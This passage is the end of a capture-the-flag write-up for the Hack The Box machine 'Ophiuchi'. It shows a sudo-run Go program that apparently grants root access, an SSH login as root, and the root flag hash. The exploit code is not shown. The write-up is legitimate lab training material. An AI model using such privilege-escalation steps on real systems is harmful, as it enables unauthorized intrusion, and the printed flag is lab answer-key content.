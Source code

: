 And run ```index.go``` on target machine:
```console
admin@ophiuchi:/tmp/test$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

```

Now, just connect using ```ssh``` to ```root``` user:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/]
└──╼ $ssh root@10.10.10.227
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 20 Mar 2021 05:55:58 PM UTC

  System load:             0.0
  Usage of /:              20.0% of 27.43GB
  Memory usage:            19%
  Swap usage:              0%
  Processes:               222
  Users logged in:         1
  IPv4 address for ens160: 10.10.10.227
  IPv6 address for ens160: dead:beef::250:56ff:feb9:4c57


176 updates can be installed immediately.
56 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb  5 17:51:32 2021
root@ophiuchi:~# cat /root/root.txt 
b9e1e34c6a411637be9afdb17456997c
root@ophiuchi:~# 
```

And we get the root flag ```b9e1e34c6a411637be9afdb17456997c```.
